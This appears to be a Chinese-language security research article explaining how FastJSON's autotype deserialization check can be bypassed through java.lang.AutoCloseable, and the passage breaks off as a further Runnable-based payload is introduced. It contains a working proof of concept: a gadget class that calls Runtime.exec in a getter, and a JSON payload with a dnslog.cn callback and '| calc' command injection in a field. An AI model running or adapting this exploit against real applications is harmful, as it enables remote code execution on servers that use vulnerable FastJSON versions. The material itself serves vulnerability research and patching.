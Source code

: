 ![]()

在FastJSON中com.alibaba.fastjson.util.TypeUtils#addBaseClassMappings用于添加一些基本的类并将其当做缓存使用，但是在查看时可以发现这里的额外加载了一个java.lang.AUtoCloseable类，同时并未为其指定deserializer，因此会走到最后的else条件中去，之后对应的JavaBeanDeserializer，而且java.lang.AUtoCloseable类位于mapping缓存中，所以可以无条件反序列化：

![]()

和之前一样，我们可以通过继承或者实现AutoCloseable类来绕过autotype反序列化检测，测试代码如下：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package org.heptagram.fastjson;  
    import java.io.IOException;import java.io.Closeable;  
    public class ViaAutoCloseable  implements Closeable {    private String domain;  
        public ViaAutoCloseable() {    }  
        public ViaAutoCloseable(String domain) {        this.domain = domain;    }  
        public String getDomain() {        try {            Runtime.getRuntime().exec(new String[]{"cmd", "/c", "ping " + domain});        } catch (IOException e) {            e.printStackTrace();        }        return domain;    }  
        public void setDomain(String domain) {        this.domain = domain;    }  
        @Override    public void close() throws IOException {  
        }}

载荷构造：

  *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package org.heptagram.fastjson;  
    import com.alibaba.fastjson.JSONObject;  
    public class AutoCloseableMain {    public static void main(String[] args) {        String payload ="{\n" +                "  \"@type\":\"java.lang.AutoCloseable\",\n" +                "  \"@type\": \"org.heptagram.fastjson.ViaAutoCloseable\",\n" +                "  \"domain\": \" wme8bg.dnslog.cn| calc\"\n" +                "}";        JSONObject.parseObject(payload);    }}

执行结果如下：

![]()

在这里我们查看以下AutoCloseable类的继承关系，可以看到通过AutoCloseable来Bypass
AutoType我们找寻Gadget的范围则变得更加宽广，常用的流操作、文件操作、socket等等都继承自AutoCloseable：

![]()

在查阅相关资料的时候看到Y4er师傅在其文章中描述到FastJson在黑名单中新增的java.lang.Runnable、java.lang.Readable类也可以用于Bypass
AutoType，下面是Y4er师傅提供的载荷：  

A、Runnable：  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    